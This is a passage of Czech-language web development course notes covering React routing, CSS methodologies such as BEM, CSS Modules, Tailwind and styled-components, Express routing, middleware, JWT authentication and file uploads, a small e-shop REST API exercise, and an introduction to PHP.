import Users from './pages/Users';
// Tento soubor definuje layout a pravidla routeru – která URL vykreslí kterou stránku
function App() {
    return (
        <div className="app-layout">
            <Sidebar />
            <main className="content">
                {/* Zde React Router dynamicky vymění obsah podle URL */}
                <Routes>
                    {/* path="/" je index (hlavní) stránka */}
                    <Route path="/" element={<Dashboard />} /> 
                    
                    {/* path="/users" je stránka uživatelů */}
                    <Route path="/users" element={<Users />} /> 
                </Routes>
            </main>
        </div>
    );
}

export default App;
```
`src/main.jsx`
```jsx
import React from 'react';
import ReactDOM from 'react-dom/client';
import { BrowserRouter } from 'react-router-dom'; // Importujeme router
import App from './App.jsx';
import './style.css'; // Importujeme naše nové globální styly
// Hlavní vstupní bod. Musíme ho "obalit" do `<BrowserRouter>` a naimportovat náš CSS
ReactDOM.createRoot(document.getElementById('root')).render(
    <React.StrictMode>
        {/* Obalíme celou aplikaci do Routeru */}
        <BrowserRouter>
            <App />
        </BrowserRouter>
    </React.StrictMode>
);
```
- Krok 6: Spustit -> `npm run dev`
- Ukázka animace:
- 
---
### 5.3 CSS ve velkých projektech
- Problém s CSS je jeho **globální povaha**. Každé pravidlo, které napíšeme, platí pro celý dokument. To vede ke "válkám specifičnosti" (kdo použije víc `!important` nebo delší selektor) a křehkému kódu, kde se bojíme cokoliv změnit.
- Moderní frontend řeší tento problém několika různými metodikami.
---
#### 5.3.1 BEM (Block-Element-Modifier)
- BEM není nástroj, ale **metodika pojmenování tříd**. Je to disciplína, kterou si tým určí, aby se předešlo kolizím. Její cíl je, aby každá třída měla nízkou specifitu a jasný význam.
- Filozofie BEM rozděluje UI na tři části:
	1. **Block (Blok):** Samostatná, znovupoužitelná komponenta. Je to "rodič".
	    - _Příklady:_ `.card`, `.navbar`, `.form`
	2. **Element (Prvek):** Část _uvnitř_ bloku, která nemůže existovat samostatně. Je to "potomek". Syntaxe je `blok__element`.
	    - _Příklady:_ `.card__title`, `.navbar__link`, `.form__input`
	3. **Modifier (Modifikátor):** Varianta bloku nebo prvku. Definuje jiný vzhled nebo stav. Syntaxe je `blok--modifikator` nebo `blok__element--modifikator`.
	    - _Příklady:_ `.card--primary`, `.form__input--disabled`
---
##### 5.3.1.1 Příklad
- Místo psaní selektorů, které jsou závislé na HTML struktuře (jako `header nav ul li a`), píšeme BEM:
- **Špatné (křehké) CSS:**
```css
/* Vysoká specifita, závislé na struktuře */
header.navbar nav ul li a {
    color: white;
}
header.navbar nav ul li a:hover {
    color: blue;
}
```
- **Dobré (BEM) CSS:**
```html
<nav class="navbar">
    <a class="navbar__link navbar__link--active" href="/">Domů</a>
    <a class="navbar__link" href="/users">Uživatelé</a>
</nav>
```

```css
/* Nízká specifita, nezávislé, znovupoužitelné */
.navbar__link {
    color: white;
    transition: color 0.3s;
}
.navbar__link:hover {
    color: blue;
}
.navbar__link--active {
    font-weight: bold;
}
```
- **Výhody:** Super přehledné, žádné konflikty specifičnosti, kód je prakticky "samodokumentační". Funguje skvěle se Sass (pomocí vnořování).
---
#### 5.3.2 CSS Modules
- CSS Modules řeší problém globálního scope **technicky**, ne jen konvencí. Je to funkce, kterou podporují bundlery (jako Vite a Webpack).
- Princip je, že **každý soubor CSS je ve výchozím stavu lokální**.
- Když vytvoříme soubor `Card.module.css`, bundler automaticky vezme třídu `.title` a přejmenuje ji na něco unikátního, např. `Card_title__a3f7b`. Tím je kolize absolutně nemožná.
---
##### 5.3.2.1 Příklad
- Jak to funguje v Reactu:
**1. Soubor stylů (`Card.module.css`):**
```css
/* Tento název je lokální POUZE pro komponentu, která ho importuje */
.card {
    background: white;
    padding: 20px;
    border-radius: 8px;
}
.title {
    color: #007bff;
}
```
**2. Komponenta (`Card.jsx`):**
```jsx
// Importujeme styly jako objekt
import styles from './Card.module.css';

function Card() {
    // 'styles' je objekt, např: { card: "Card_card__b2c9a", title: "Card_title__a3f7b" }
    
    return (
        // Místo className="card" použijeme {styles.card}
        <div className={styles.card}>
            <h3 className={styles.title}>Titulek karty</h3>
        </div>
    );
}
```
- **Výhody:** Opravdová, vynucená izolace stylů. Skvěle se hodí k React komponentám, protože každý `*.module.css` soubor patří přesně k jedné komponentě.
---
#### 5.3.3 TailwindCSS
- Tailwind je radikálně odlišný přístup. Je to **Utility-First** (primárně na utilitách) framework. Místo psaní CSS souborů píšeme **předpřipravené třídy přímo do HTML/JSX**.
- Neuvažujeme v termínech "karta" nebo "formulář", ale v termínech "má mít modré pozadí", "má mít velký padding", "má být flexbox".
---
##### 5.3.3.1 Příklad
- **Tradiční přístup (např. BEM):**
```html
<button class="btn btn--primary">Odeslat</button>
```

```css
.btn {
    padding: 10px 20px;
    border-radius: 5px;
}
.btn--primary {
    background-color: blue;
    color: white;
}
```
- **Tailwind přístup:**
```html
<button class="bg-blue-500 text-white font-bold py-2 px-4 rounded">
    Odeslat
</button>
```
- `bg-blue-500`: `background-color: blue;`
- `text-white`: `color: white;`
- `font-bold`: `font-weight: bold;`
- `py-2`: `padding-top: 0.5rem; padding-bottom: 0.5rem;`
- `px-4`: `padding-left: 1rem; padding-right: 1rem;`
- `rounded`: `border-radius: 0.25rem;`
  
- **Výhody:** Extrémně rychlý vývoj a prototypování. Nemusíme vymýšlet názvy tříd. Všechny styly jsou přímo u elementu (tzv. kolokace). **Nevýhody:** HTML/JSX může vypadat "ošklivě" a přeplácaně. Musíme se naučit názvy utilit.

---
#### 5.3.4 Styled Components (CSS-in-JS)
- Toto je další přístup, který skvěle zapadá do Reactu. Je to knihovna, která vám umožní psát **skutečné CSS přímo ve vašich JavaScript (`.jsx`) souborech**.
- Vytváří React komponenty, které mají své styly "přibalené" k sobě.
---
##### 5.3.4.1 Příklad
- Musíte nainstalovat balíček: `npm install styled-components`
- **Komponenta (`Button.jsx`):**
```jsx
// Importujeme 'styled' z knihovny
import styled from 'styled-components';

// Vytvoříme novou React komponentu <Button>
// Použijeme "template literal" (zpětné uvozovky ``) k napsání CSS
const Button = styled.button`
    background: white;
    color: #007bff;
    border: 2px solid #007bff;
    padding: 10px 20px;
    border-radius: 5px;
    cursor: pointer;
    transition: all 0.3s ease;

    &:hover {
        background: #007bff;
        color: white;
    }
`;

// Můžeme dokonce vytvářet varianty na základě props!
const PrimaryButton = styled(Button)`
    background: #007bff;
    color: white;
`;

// Použití v jiné komponentě:
function App() {
    return (
        <div>
            <Button>Normální tlačítko</Button>
            <PrimaryButton>Primární tlačítko</PrimaryButton>
        </div>
    );
}
```
- **Výhody:** Styly jsou 100% svázané s komponentou. Umožňuje snadno měnit styly na základě React `props` (viz `PrimaryButton`). Žádné globální kolize.
---
## 6 Backend – serverová logika a databáze
- Výborně. Až doteď byl veškerý náš kód (HTML, CSS, JS, React) stahován a spouštěn v **prohlížeči klienta**. Náš React Dashboard sice volal API, ale volal _cizí_ server (`jsonplaceholder`).
- Nyní se přesuneme na druhou stranu rovnice: na **server**. Naučíme se, jak postavit vlastní program, který poběží 24/7 na vzdáleném počítači a bude našemu React frontendu poskytovat data.
---
### 6.1 Backend základy
- Než se vrhneme na konkrétní jazyk (Node.js, C#...), musíme si vyjasnit tři základní pilíře, které má každý backend společné.
---
#### 6.1.1 Co je serverový jazyk
- JavaScript, který jsme psali pro React, běží v "sandboxu" prohlížeče. Z bezpečnostních důvodů má velmi omezená práva:
	- Nemůže přímo přistupovat k souborům na tvém disku (jen k těm, které mu explicitně nahraješ).
	- Nemůže se přímo připojit k databázi.
	- Nemůže poslouchat na síťovém portu.
- **Serverový jazyk** (jako Node.js, C#, PHP nebo Python) je opak. Běží na tvém serveru jako plnohodnotný program a má plný přístup:
	- Může číst a zapisovat soubory (ukládat uploady, generovat logy).
	- Může se připojit k databázím (MySQL, PostgreSQL, MongoDB) a provádět v nich dotazy.
	- Může otevřít síťový port (např. port 80 pro HTTP) a poslouchat na příchozí požadavky z internetu.
- **Node.js** je v tomto speciální: je to _prostředí_, které umožňuje vzít JavaScript (který známe z frontendu) a spustit ho právě s těmito serverovými právy.
---
#### 6.1.2 REST API – principy
- Náš frontend (React) a backend (např. ASP.NET) jsou dva oddělené programy, které si musí "povídat". Standardní způsob, jakým si povídají, je **REST API** (Representational State Transfer Application Programming Interface).
- Je to vlastně jen sada pravidel, jak strukturovat HTTP požadavky, které jsme se učili v první kapitole. Místo abychom si posílali celé HTML stránky, posíláme si jen čistá **data**.
- Základem RESTu je kombinace:
	1. **URL (cesty):** Identifikuje zdroj (např. `/api/users`).
	2. **HTTP Metody (slovesa):** Určuje, co chceme se zdrojem udělat.

| **HTTP Metoda** | **CRUD Operace**         | **Příklad (pro /api/users)** | **Popis**                                      |
| --------------- | ------------------------ | ---------------------------- | ---------------------------------------------- |
| **GET**         | **Read** (Čtení)         | `GET /api/users`             | Získej seznam všech uživatelů.                 |
| **GET**         | **Read** (Čtení)         | `GET /api/users/123`         | Získej uživatele s ID 123.                     |
| **POST**        | **Create** (Tvorba)      | `POST /api/users`            | Vytvoř nového uživatele (data pošleme v těle). |
| **PUT**         | **Update** (Aktualizace) | `PUT /api/users/123`         | Kompletně aktualizuj uživatele s ID 123.       |
| **DELETE**      | **Delete** (Mazání)      | `DELETE /api/users/123`      | Smaž uživatele s ID 123.                       |

- Náš React Dashboard dělal zatím jen `GET /users`. Plnohodnotná aplikace by používala všechny tyto metody.
---
#### 6.1.3 JSON
- Jak ta data posíláme? V 99 % případů ve formátu **JSON (JavaScript Object Notation)**.
- Je to jednoduchý textový formát, který vychází ze syntaxe JavaScriptových objektů. Je extrémně lehký a čitelný pro lidi i stroje.
- **Příklad JSONu, který by vrátil náš backend:**
```json
[
  {
    "id": 1,
    "name": "Martin Novan (z C# API)",
    "email": "martin@mojeapi.cz",
    "phone": "123-456-789"
  },
  {
    "id": 2,
    "name": "Testovací Uživatel",
    "email": "test@mojeapi.cz",
    "phone": "987-654-321"
  }
]
```
- Náš React frontend (pomocí `response.json()`) si tento text převede na pole JavaScriptových objektů a může s ním rovnou pracovat.
---
### 6.2 Node.js a Express
- Vítejte na straně serveru. Jak jsme si řekli, **Node.js** je JavaScriptové běhové prostředí (runtime), které nám umožňuje spouštět JS kód mimo prohlížeč s plným přístupem k souborovému systému, databázím a síti.
- Samotný Node.js je poměrně nízkoúrovňový. Pro stavbu webového serveru nebo API bychom v něm museli psát spoustu opakujícího se kódu (zpracování HTTP požadavků, parsování URL atd.).
- Proto používáme **Express.js**. Je to minimalistický a flexibilní **framework** pro Node.js, který nám tuto práci extrémně zjednodušuje. Je to de facto standard pro stavbu API v Node.js.
- Pro všechny následující příklady si nejdřív musíme připravit projekt:
```bash
# Vytvořte si novou složku (např. muj-server) a přejděte do ní
mkdir muj-server
cd muj-server

# Inicializujte Node.js projekt (vytvoří package.json)
npm init -y

# Nainstalujte Express
npm install express
```
- Veškerý kód budeme psát do souboru `server.js` (nebo `index.js`).
---
#### 6.2.1 První server
- Těchto pár řádků je základem každé Express aplikace.
**`soubor: server.js`**
```javascript
// 1. Importujeme Express. Používáme CommonJS syntaxi (require),
// protože je v Node.js ekosystému stále velmi častá.
const express = require('express');

// 2. Vytvoříme instanci Express aplikace.
// 'app' je náš hlavní objekt, na který budeme věšet routy a middleware.
const app = express();

// 3. Definujeme port. Použijeme 3000.
const PORT = 3000;

// 4. Definujeme naši první "route" (cestu).
// app.get(cesta, callback_funkce)
// Callback funkce přijímá dva hlavní parametry:
// req (Request): Objekt obsahující VŠECHNY informace o příchozím požadavku
//                (kdo se ptá, z jaké IP, jaké poslal hlavičky atd.).
// res (Response): Objekt, pomocí kterého posíláme odpověď zpět klientovi.
app.get('/', (req, res) => {
    // Použijeme metodu .send() k poslání jednoduché textové odpovědi.
    res.send('Ahoj světe! Můj Express server běží!');
});

// 5. Spustíme server.
// Metoda .listen() řekne serveru, aby "poslouchal" na daném portu
// a čekal na příchozí HTTP požadavky.
app.listen(PORT, () => {
    // Tento callback se spustí, jakmile je server úspěšně nastartován.
    console.log(`Server úspěšně běží na http://localhost:${PORT}`);

}).on('error', (err) => {
    // (Bonus) Přidali jsme odchytávání chyb, kdyby byl port obsazený.
    if (err.code === 'EADDRINUSE') {
        console.error(`CHYBA: Port ${PORT} je již obsazený.`);
    } else {
        console.error(err);
    }
});
```
- Když teď soubor uložíte a spustíme v terminálu pomocí `node server.js`, proces se _neukončí_. Bude běžet a čekat. Otevřením `http://localhost:3000` v prohlížeči mu pošlete `GET` požadavek a on vám odpoví.
---
#### 6.2.2 Routing (Směrování)
- Routing je proces, jakým Express určuje, který kód se má spustit pro kterou kombinaci **HTTP Metody** (GET, POST, ...) a **Cesty** (URL).
- Základní metody jsou:
	- `app.get(cesta, handler)` - Čtení dat
	- `app.post(cesta, handler)` - Vytvoření nových dat
	- `app.put(cesta, handler)` - Aktualizace existujících dat
	- `app.delete(cesta, handler)` - Mazání dat
---
##### Čtení parametrů z URL
- **1. Route Parameters (Parametry cesty)** Jsou to dynamické části URL. Používají se k identifikaci konkrétního zdroje (např. uživatele s ID 5).
```javascript
// :id je "placeholder" pro jakoukoliv hodnotu na tomto místě
app.get('/uzivatele/:id', (req, res) => {
    // Všechny parametry cesty najdeme v objektu req.params
    const idUzivatele = req.params.id;
    res.send(`Chcete načíst uživatele s ID: ${idUzivatele}`);
});
```
- _Požadavek na `http://localhost:3001/uzivatele/123` vrátí "Chcete načíst uživatele s ID: 123"._
- **2. Query Parameters (Parametry dotazu)** Jsou to volitelné parametry na konci URL za otazníkem (`?`). Používají se pro filtrování, řazení nebo vyhledávání.
```javascript
// URL bude /search?q=nejakyDotaz&sort=asc
app.get('/search', (req, res) => {
    // Všechny query parametry najdeme v objektu req.query
    const dotaz = req.query.q;
    const razeni = req.query.sort;
    res.send(`Hledáte: "${dotaz}", řazení: "${razeni}"`);
});
```
- _Požadavek na `http://localhost:3001/search?q=počítač&sort=cena` vrátí "Hledáte: "počítač", řazení: "cena""._
---
##### Zpracování POST požadavků a `req.body`
- Když frontend posílá data (např. z formuláře nebo JSON), posílá je v **těle (body)** požadavku. Ve výchozím stavu Express tomuto tělu nerozumí.
- Abychom mohli číst `req.body`, musíme použít **middleware**.
```javascript
// ... (hned po const app = express()) ...

// Toto je vestavěný middleware, který parsuje příchozí JSON požadavky
// a zpřístupní je v objektu `req.body`.
app.use(express.json());

// Toto je middleware pro parsování formulářových dat (x-www-form-urlencoded)
app.use(express.urlencoded({ extended: true }));

// Teď můžeme vytvořit POST route
app.post('/api/uzivatele', (req, res) => {
    // Díky express.json() zde máme data, která poslal klient
    const novyUzivatel = req.body; 
    
    console.log("Přišla data:", novyUzivatel);
    // ... zde by byla logika pro uložení do databáze ...
    
    res.status(201).json({ 
        message: "Uživatel vytvořen", 
        data: novyUzivatel 
    });
});
```
---
#### 6.2.3 Middleware
- Middleware je nejdůležitější a nejsilnější koncept Expressu. Je to jakýkoliv kód, který se provede **mezi** přijetím požadavku a odesláním odpovědi.
- Představme si to jako vrstvy cibule nebo filtry na potrubí. Každý požadavek jimi musí projít.
- Každá middleware funkce má tři argumenty: `req`, `res` a `next`.
	- `req`: Objekt požadavku.
	- `res`: Objekt odpovědi.
	- `next`: Funkce, kterou **musíme zavolat**, pokud chceme, aby požadavek pokračoval k dalšímu middleware nebo k finálnímu route handleru.
- **Příklad: Vlastní middleware pro logování**
```javascript
// Toto je middleware funkce
const mujLogger = (req, res, next) => {
    console.log('--- Nový požadavek ---');
    console.log(`Čas: ${new Date().toISOString()}`);
    console.log(`Metoda: ${req.method}`);
    console.log(`Cesta: ${req.path}`);
    
    // Požadavek zkontrolován, posíláme ho dál
    next();
};

// Jak middleware použít:

// 1. Globální použití (pro všechny cesty)
// Musí být definováno PŘED vašimi routami.
app.use(mujLogger);

// 2. Použití pro specifickou cestu
const overAdmina = (req, res, next) => {
    if (req.query.admin === 'true') {
        next(); // Je admin, může dál
    } else {
        res.status(401).send('Nejste autorizován (chybí ?admin=true)');
        // NEVOLÁME next() - požadavek zde končí.
    }
};

// Tento handler se spustí, jen pokud projde přes middleware "overAdmina"
app.get('/admin/panel', overAdmina, (req, res) => {
    res.send('Vítejte v tajném admin panelu!');
});
```
- Jak vidíme, `app.use(express.json())` je také jen middleware – jeho úkolem je přečíst tělo požadavku, přetvořit ho na JSON a vložit ho do `req.body`, než zavolá `next()`.
---
#### 6.2.4 Ověřování JWT (JSON Web Token)
- Toto je perfektní praktický příklad využití middleware. Jak ověřit, že je uživatel přihlášený?
- Nejdříve nainstalujeme knihovnu pro JWT:
```bash
npm install jsonwebtoken
```
- **Proces má dvě části:**
**1. Login Route (Vytvoření tokenu)** Tato routa _není_ chráněná. Přijme jméno a heslo, ověří je (zde jen simulujeme) a pokud sedí, vygeneruje a pošle zpět token.
```javascript
const jwt = require('jsonwebtoken');
const TAJNY_KLIC = 'mujSuperTajnyKlic123'; // Ve skutečnosti musí být v .env souboru!

app.post('/login', (req, res) => {
    // 1. Získáme data z těla
    const { username, password } = req.body;

    // 2. Ověříme uživatele (zde jen simulace)
    if (username === 'martin' && password === 'heslo123') {
        // 3. Uživatel je platný. Vytvoříme "payload" (co chceme uložit do tokenu)
        const payload = { 
            id: 1, 
            username: 'martin',
            role: 'admin' 
        };
        
        // 4. Vygenerujeme token
        const token = jwt.sign(payload, TAJNY_KLIC, { expiresIn: '1h' }); // Platnost 1 hodina
        
        // 5. Pošleme token klientovi
        res.json({ token: token });
        
    } else {
        res.status(401).send('Neplatné jméno nebo heslo.');
    }
});
```
**2. Ochranný Middleware (Ověření tokenu)** Tento middleware pověsíme na všechny cesty, které chceme chránit.
```javascript
const overToken = (req, res, next) => {
    // 1. Získáme hlavičku 'Authorization'
    const authHeader = req.headers['authorization']; // 'Bearer <token>'
    
    // 2. Zjistíme, jestli token existuje
    const token = authHeader && authHeader.split(' ')[1]; // Vezmeme jen část po "Bearer "
    
    if (token == null) {
        return res.status(401).send('Přístup odepřen, chybí token.');
    }

    // 3. Ověříme platnost tokenu
    jwt.verify(token, TAJNY_KLIC, (err, user) => {
        if (err) {
            return res.status(403).send('Neplatný token.'); // 403 Forbidden
        }
        
        // 4. Vše je OK. Uložíme data z tokenu do req.user
        // a pustíme požadavek dál na chráněnou routu.
        req.user = user;
        next();
    });
};

// 3. Použití middleware na chráněné cestě
app.get('/api/moje-data', overToken, (req, res) => {
    // Díky middleware "overToken" máme teď přístup k req.user
    res.json({ 
        message: 'Toto jsou tajná data!',
        uzivatel: req.user 
    });
});
```
---
#### 6.2.5 Soubory a upload
- Pro upload souborů (obrázky, PDF...) potřebujeme specializovaný middleware, protože data nechodí jako JSON, ale jako `multipart/form-data`. Nejlepší je **Multer**.
```bash
npm install multer
```
- Multer zpracuje příchozí soubory a zpřístupní nám je v objektu `req.file` (pro jeden soubor) nebo `req.files` (pro více souborů).
```javascript
const multer = require('multer');

// Základní konfigurace: řekneme multeru, kam má soubory ukládat
// 'uploads/' je složka, kterou si musíte vytvořit v kořeni projektu
const upload = multer({ dest: 'uploads/' });

// Vytvoříme endpoint pro upload
// 'obrazek' musí odpovídat 'name' atributu ve vašem <input type="file">
app.post('/api/upload', upload.single('obrazek'), (req, res) => {
    
    if (!req.file) {
        return res.status(400).send('Nebyl nahrán žádný soubor.');
    }

    // Multer nám zpřístupnil veškeré info o souboru
    console.log('Soubor úspěšně nahrán:', req.file);
    
    // req.file obsahuje info jako:
    // {
    //   fieldname: 'obrazek',
    //   originalname: 'muj-obrazek.jpg',
    //   encoding: '7bit',
    //   mimetype: 'image/jpeg',
    //   destination: 'uploads/',
    //   filename: 'a4e0c1f5a545a4ec12d5afe5c4', // Náhodně vygenerovaný název
    //   path: 'uploads/a4e0c1f5a545a4ec12d5afe5c4',
    //   size: 123456
    // }

    res.json({ 
        message: 'Soubor úspěšně nahrán!',
        cesta: req.file.path // Vrátíme klientovi cestu k souboru
    });
});
```
---
#### 6.2.6 Mini-projekt: API pro e-shop
- **Cíl:** Vytvořit jednoduché REST API pro malý e-shop, které bude poskytovat data o produktech.
- **Požadavky:**
	1. **Projekt:** Založte nový Node.js / Express projekt.
	2. **Data:** Vytvořte si v `server.js` jednoduché pole objektů (bude simulovat naši databázi), např.:
	   ```bash
	   const produkty = [
	   { id: 1, nazev: "Notebook", cena: 30000 },
	   { id: 2, nazev: "Myš", cena: 800 },
	   { id: 3, nazev: "Klávesnice", cena: 1500 }
	   ];
	   ```
	3. **Endpointy (Routy):** Vytvořte následující REST API endpointy:
	    - `GET /api/produkty`: Vrátí seznam _všech_ produktů.
	    - `GET /api/produkty/:id`: Vrátí _jeden_ produkt podle ID. (Pokud neexistuje, vrátí status 404 - Not Found).
	    - `POST /api/produkty`: Přidá nový produkt do pole. (Data přijme z `req.body`).
	4. **Middleware:**
	    - Použijte `express.json()` pro parsování `req.body`.
	    - (Bonus) Vytvořte si vlastní logovací middleware, který vypíše každý příchozí požadavek.
---
- Příklad
- Kroky pro spuštění
	1. Vytvořte si novou složku (např. `express-api-projekt`).
	2. Otevřete v ní terminál.
	3. Spusťte `npm init -y` (vytvoří `package.json`).
	4. Spusťte `npm install express` (nainstaluje Express).
	5. Vytvořte soubor `server.js`.
	6. Zkopírujte do něj kód níže.
- vytvoření API: 
`server.js`
```javascript
// 1. IMPORT KNIHOVEN
const express = require('express');
const app = express();
const PORT = 3000;

// 2. MIDDLEWARE
// Bonus: Vlastní logovací middleware
// Tato funkce se spustí PŘED každým požadavkem
const loggerMiddleware = (req, res, next) => {
    console.log(`[${new Date().toISOString()}] ${req.method} ${req.path}`);
    next(); // Posílá požadavek dál (na další middleware nebo na routu)
};

// Řekneme Expressu, aby používal náš middleware
app.use(loggerMiddleware);

// Vestavěný middleware, který parsuje příchozí JSON z req.body
// Toto je KLÍČOVÉ pro POST požadavky!
app.use(express.json());

// 3. DATABÁZE (SIMULACE)
// Ve skutečné aplikaci by toto bylo v databázi.
// Používáme 'let', protože budeme do pole přidávat (na rozdíl od 'const').
let produkty = [
  { id: 1, nazev: "Notebook", cena: 30000 },
  { id: 2, nazev: "Myš", cena: 800 },
  { id: 3, nazev: "Klávesnice", cena: 1500 }
];
let nextId = 4; // Pro generování nových ID

// 4. ENDPOINTY (ROUTY)
// --- GET /api/produkty (Získání VŠECH produktů) ---
app.get('/api/produkty', (req, res) => {
    res.json(produkty); // Express automaticky vrátí JSON a status 200 OK
});

// --- GET /api/produkty/:id (Získání JEDNOHO produktu) ---
app.get('/api/produkty/:id', (req, res) => {
    // 1. Získáme ID z URL parametrů. Přichází jako string, proto parseInt.
    const id = parseInt(req.params.id);
    
    // 2. Najdeme produkt v poli
    const produkt = produkty.find(p => p.id === id);

    // 3. Zpracujeme výsledek
    if (produkt) {
        res.json(produkt); // Našli jsme, vracíme produkt
    } else {
        // Nenašli jsme, vracíme chybu 404 (Not Found)
        res.status(404).json({ message: "Produkt s tímto ID nebyl nalezen." });
    }
});

// --- POST /api/produkty (Vytvoření NOVÉHO produktu) ---
app.post('/api/produkty', (req, res) => {
    // 1. Díky `express.json()` máme data z frontendu v `req.body`
    const { nazev, cena } = req.body; // Používáme destrukturaci

    // 2. Základní validace
    if (!nazev || !cena) {
        // Pokud něco chybí, vracíme chybu 400 (Bad Request)
        return res.status(400).json({ message: "Chybí název nebo cena produktu."});
	}

    // 3. Vytvoříme nový produkt
    const novyProdukt = {
        id: nextId,
        nazev: nazev,
        cena: parseInt(cena) // Zajistíme, že cena je číslo
    };

    // 4. Přidáme ho do "databáze" a zvýšíme ID pro dalšího
    nextId++;
    produkty.push(novyProdukt);

    // 5. Odpovíme klientovi (Status 201 = Created)
    console.log("Nový produkt přidán:", novyProdukt);
    res.status(201).json(novyProdukt);
});

// 5. SPUŠTĚNÍ SERVERU
app.listen(PORT, () => {
	console.log(`API server běží na http://localhost:${PORT}`);
	console.log("Dostupné endpointy:");
	console.log(`GET http://localhost:${PORT}/api/produkty`);
	console.log(`GET http://localhost:${PORT}/api/produkty/:id`);
	console.log(`POST http://localhost:${PORT}/api/produkty`);
});
```
- Testování
	1. **Spuštění serveru:** V terminálu spusťte:
	```bash
    node server.js
	```
	- Měli byste vidět zprávu, že server běží.
	1. **Testování GET (v prohlížeči):**
	    - Otevřete `http://localhost:3000/api/produkty` -> Uvidíte seznam všech produktů.
	    - Otevřete `http://localhost:3000/api/produkty/2` -> Uvidíte jen "Myš".
	    - Otevřete `http://localhost:3000/api/produkty/99` -> Uvidíte chybovou JSON zprávu 404.
	2. **Testování POST (v terminálu):** Prohlížeč umí standardně jen `GET`. Pro `POST` musíme použít nástroj jako Postman, nebo terminálový **`curl`**.
	3. Otevřete **druhý terminál** (server nechte běžet!) a zadejte tento příkaz:
    ```bash
    curl -X POST http://localhost:3000/api/produkty -H "Content-Type: application/json" -d "{\"nazev\":\"Monitor\",\"cena\":5000}"
    ```
	 - `-X POST`: Určuje metodu POST.
	- `-H "Content-Type: application/json"`: Říká serveru, že posíláme JSON.
	- `-d "..."`: Data (tělo požadavku), která posíláme.
    - **Odpověď:** V terminálu by se vám měl vrátit nově vytvořený objekt: `{"id":4,"nazev":"Monitor","cena":5000}`
- **Ověření:** Když teď znovu v prohlížeči načtete `http://localhost:3000/api/produkty`, uvidíte tam už i nový monitor! A v terminálu, kde běží server, uvidíte logy z vašeho middleware.
- Ukázka logů:
```bash
❯ node server.js
API server běží na http://localhost:3001
Dostupné endpointy:
GET http://localhost:3001/api/produkty
GET http://localhost:3001/api/produkty/:id
POST http://localhost:3001/api/produkty
[2025-11-25T07:03:20.266Z] GET /api/produkty
[2025-11-25T07:03:36.678Z] GET /api/produkty
[2025-11-25T07:04:16.477Z] POST /api/produkty
Nový produkt přidán: { id: 4, nazev: 'Monitor', cena: 5000 }
[2025-11-25T07:04:19.764Z] GET /api/produkty
```
---
### 6.3 PHP – základní serverový jazyk
- **PHP (Hypertext Preprocessor)** je serverový skriptovací jazyk, který byl od základů navržen pro tvorbu webu. Jeho filozofie je historicky odlišná od Node.js.
	- **Node.js/Express** funguje jako **aplikace**. Spustíme `node server.js` a celá naše aplikace běží jako jeden dlouhotrvající proces, který spravuje všechny routy.
	- **PHP** tradičně funguje na modelu **soubor jako endpoint**. Webový server (jako Apache nebo Nginx) je nakonfigurován tak, že když uživatel navštíví `http://example.com/stranka.php`, server spustí soubor `stranka.php`, nechá ho vygenerovat HTML a výsledek pošle klientovi. Po dokončení skript "zemře".
---
#### 6.3.1 Role PHP v historii a současnosti
- **Historicky:** PHP dominovalo webu díky své neuvěřitelné jednoduchosti. Stačilo nahrát `.php` soubor na levný sdílený hosting a _prostě to fungovalo_. Není náhoda, že na něm běží WordPress, který pohání obrovskou část internetu.
- **Současnost:** Zapomeňme na staré, nebezpečné PHP verze 4 a 5. Moderní PHP (verze 8+) je rychlý, silně typovaný (pokud chceme) a plně objektově orientovaný jazyk. S moderními frameworky jako **Laravel** nebo **Symfony** se používá k budování špičkových, robustních a škálovatelných REST API, které si v ničem nezadají s ASP.NET Core nebo Expressem.
---
#### 6.3.2 První PHP skript
- Kouzlo PHP spočívá v tom, že ho můžeme míchat přímo s HTML. Kód PHP se vkládá mezi speciální značky `<?php` a `?>`.
**`soubor: index.php`** (Všimněte si přípony `.php`)
```php
<!DOCTYPE html>
<html lang="cs">
<head>
    <meta charset="UTF-8">
    <title>Moje první PHP stránka</title>
</head>
<body>
    <h1>Vítejte!</h1>
    
    <p>Toto je statické HTML, které se posílá tak, jak je.</p>
    
    <p>
        <?php
            // Kód uvnitř těchto značek se spustí na SERVERU
            // 'echo' je příkaz pro "vytištění" textu do výstupního HTML
            echo "Toto je dynamický text vygenerovaný pomocí PHP!";
        ?>
    </p>
    <p>
        Aktuální čas na serveru je: 
        <strong>
            <?php
                // Proměnné v PHP začínají znakem $
                $aktualniCas = date("H:i:s"); // 'date' je vestavěná funkce
                echo $aktualniCas;
            ?>
        </strong>
    </p>
</body>
</html>
```
- Když si tento soubor otevřeme v prohlížeči (přes běžící PHP server, např. XAMPP, WAMP nebo `php -S localhost:8000`), nikdy neuvidíte `<?php ... ?>`. Uvidíme jen čistý HTML výsledek:
```html
...
<p>
    Aktuální čas na serveru je: 
    <strong>
        15:52:01
    </strong>
</p>
...
```
---
#### 6.3.3 Práce s proměnnými, podmínkami, cykly
- Syntaxe je velmi podobná JavaScriptu, ale má svá specifika.
- **Proměnné:** Vždy začínají znakem dolaru (`$`). Jsou dynamicky typované (jako v JS).    
```php
    $jmeno = "Martin"; // String
